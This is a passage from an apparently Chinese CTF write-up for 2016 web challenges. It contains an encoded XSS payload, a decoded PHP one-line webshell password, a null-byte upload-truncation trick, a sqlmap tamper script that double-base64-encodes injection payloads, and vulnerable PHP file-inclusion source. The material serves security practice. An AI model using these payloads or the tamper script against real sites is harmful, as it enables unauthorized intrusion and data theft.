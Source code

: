 xss，直接构造payload`<BODY%2BONLOAD%253Dalert%2528%2527XSS%2527%2529>`

![](http://7xi72v.com1.z0.glb.clouddn.com/16-9-10/66687170.jpg)

### 6、233(150)
> 少年，老套路，你都懂得~  http://huashan.xdsec.cn/233/
查看源代码 能看到是JSfuck编码 解码 
![](http://oayoilchh.bkt.clouddn.com/2016/09/11/01:11:22%20)
得到加密后的一句话木马
**┼攠數畣整爠煥敵瑳∨䁥祳ぴ㍧≴┩>**
解密得到一句话密码e@syt0g3t
得到 flag_Xd{hSh_ctf:e@syt0g3t}

### 7、无间道(200)
> 无间道：放你的人来我这？~ http://huashan.xdsec.cn/upload/index.php
利用“php很烦人”那题得到index.php源码，flag就在其中

正确解法：
一道上传截断题目,过程不多说。直接fuzz %80~%00中间的字符,即可上传成功,得到返回的flag。由于上传删除文件的过程有延时,可能存在竞争上传问题。
### 8、Mory try
没做出来
看了师傅们的wp
过程大概是
**role参数里是两次base64编码，测试后可以注入。使用sqlmap的random user-agent绕过一下，并编写两次base64的tamper：**
```PY
#!/usr/bin/env python
# Copyright (c) 7 team  All rights reserved
from lib.core.enums import PRIORITY
from urllib import urlencode
import base64
import urllib
__priority__ = PRIORITY.LOW
def tamper(payload):
    retVal = payload
    retVal = base64.b64encode(retVal)
    retVal = base64.b64encode(retVal)
    retVal = urllib.quote(retVal)
    return retVal
```
然后就能得到flag
`flag_xd{hsh_ctf:sql_succeed!}`


### 9、php很烦人(200)
> 但php仍然是世界上最好的语言   http://huashan.xdsec.cn/php/
发包，看到源码。

```
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
